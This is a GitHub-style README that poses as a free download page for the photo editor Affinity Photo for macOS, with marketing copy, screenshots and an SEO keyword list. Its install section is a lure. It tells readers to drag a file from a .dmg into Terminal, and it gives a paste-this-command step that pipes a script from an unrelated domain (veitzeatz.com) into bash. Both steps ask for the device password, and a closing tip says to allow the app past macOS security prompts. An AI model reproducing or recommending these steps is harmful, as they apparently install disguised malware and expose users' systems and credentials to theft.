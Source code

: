 <p align="center">
  <img src="https://cdn.jim-nielsen.com/macos/512/affinity-photo-2020-11-18.png?rf=1024" alt="Affinity Photo Mac Banner" />
</p>

<h1 align="center">Affinity Photo for macOS</h1>

<p align="center">
  📸 The ultimate photo editing suite for Mac – from retouching and compositing to RAW development and HDR imaging.  
  <br><br>
  ✅ Optimized for Apple Silicon and Intel  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/131" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20FLINTO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Affinity Photo for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://cdn.serif.com/affinity/img/photo/home/0824/slider/photo-ocio-020820240816--lg@2x.png" alt="Affinity Photo Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Affinity Photo?

**Affinity Photo** is a powerful photo editing application for macOS, built for photographers, designers, and creative professionals who need speed, flexibility, and quality. It provides complete control over your edits with unlimited layers, real-time adjustments, RAW processing, and advanced brush engine.

From skin retouching to complex composites and panoramic stitching, Affinity Photo delivers all the tools you need without the subscription model of traditional software.

It runs natively on both **Intel and Apple Silicon Macs (M1/M2/M3)** and supports the latest macOS releases — **Sonoma**, **Ventura**, and **Monterey** — with full Metal acceleration for high-speed rendering.

---

## ✅ Why Choose Affinity Photo?

- 🧠 **Unlimited Layers** – Work non-destructively with full control  
- 🎯 **RAW Development** – Edit RAW images with precision  
- ✨ **Advanced Retouching** – Frequency separation, healing, liquify tools  
- 🌈 **HDR & Tone Mapping** – Create stunning high-dynamic-range effects  
- 📐 **Precision Selections** – Refine edges, masks, and object cutouts  
- 🖌️ **Custom Brushes & Tools** – Full brush engine with stylus support  
- 🖥️ **PSD Compatibility** – Open and edit Photoshop files  
- 🚀 **Ultra-Fast Performance** – Metal acceleration and instant previews  

> Whether you're editing portraits, landscapes, or advanced composites — **Affinity Photo** provides pro-level features without compromise.

---

## 📸 More Screenshots

<p align="center">
  <img src="https://cdn.serif.com/affinity/img/learn/quickstart/photo/photo-desktop-header-280920231547--lg@2x.png" />
  <br><br>
  <img src="https://cdn.serif.com/affinity/img/photo/home/0322/composition/composition-041120220926--lg@2x.jpg" alt="Affinity Photo Retouching Screenshot" />
</p>

---

## 🚀 Key Features

- 📸 Full RAW processing engine  
- 🎨 Non-destructive live filters  
- 🖼️ HDR merge and panorama stitching  
- 🧽 Precision retouching tools  
- 🖋️ Layer blending and masking  
- 🧩 PSD, PNG, TIFF, JPG support  
- 💡 Batch processing included  
- 🖥️ Apple Silicon optimized  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Affinity Photo under "App Management"

---

## 🔍 Tags

```text
affinity photo mac download, affinity photo for macbook, affinity photo editor mac, download affinity photo macos, affinity photo m1 support, affinity hdr photo tool, affinity photo retouching mac, best photo editor macbook, affinity photo ventura compatible, affinity raw development mac, affinity apple silicon native, affinity photo for mac m1 m2, affinity image editor mac, affinity macbook pro app, affinity photo standalone installer
